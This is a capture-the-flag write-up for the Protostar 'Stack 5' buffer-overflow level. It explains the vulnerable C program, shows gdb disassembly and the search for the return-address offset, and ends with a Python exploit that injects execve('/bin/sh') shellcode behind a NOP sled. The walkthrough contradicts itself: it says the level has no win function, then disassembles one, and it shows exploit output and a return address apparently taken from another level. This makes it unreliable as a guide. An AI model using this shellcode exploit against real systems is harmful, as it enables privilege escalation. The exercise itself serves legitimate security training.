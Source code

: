 ```yaml
---
title: Stack 5
sidebar_position: 6
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



> Stack5 is a standard buffer overflow, this time introducing shellcode.
> This level is at /opt/protostar/bin/stack5
> 
> **Hints**
> - At this point in time, it might be easier to use someone elses shellcode
> - If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
> - remove the int3s once your shellcode is done.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
In this code there is no `win` function. In order to complete the challenge we have to obtain `root` priviledge.
For that, we need to use a shellcode that we can get from shell-storm.

The saved return address must be overwritten with the address of the shellcode.
```
					|-------------------------|                                                       
entry esp --------> |     saved eip           | ====+
					|     (return address)    |      |
                    |-------------------------|      |                                                     
new ebp ----------> |     saved ebp           |      |
					|-------------------------|      |
					|     shellcode [63]      |      |
					|          .              |      |
					|          .              |      |
					|          .              |      |
					|     shellcode [0]       | <----+
					|-------------------------|
new esp ----------> |     i                   |
					|-------------------------|
					|                         |
```
That was a generalized representation.

But first let's understand the binary using `gdb`.
```
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
```
Let's figure out where our buffer is located.
```
(gdb) p/s ($esp+0x10)
$1 = (void *) 0xbffff760
```
We can see that the buffer begins at  `0xbffff760`.

Set a breakpoint at `main+21` and pass in the following input:
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```
This will lead to segmentation fault.
```
Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
```
The error message tells us that the value of  stored `eip` was changed to `0x74747474` which is not a valid address. `0x74` is `t` in ASCII.

So the 77th, 78th, 79th and 80th bytes from our input overwrote the saved `eip`.

In order to alter control flow to the `win` function, we first need to know its address.
```
(gdb) disassemble win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```
These four bytes need to be the `0xbffff760` address in little-endian format.
```
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss + \x60\xf7\xff\xbf
```


## Exploit

```
$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack5
code flow successfully changed
```



```python
import struct

padding = "A"*76
nops = "\x90"*150
eip = struct.pack("I",0xbffff7e0)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80";
payload = padding+eip+nops+shellcode
print payload
```
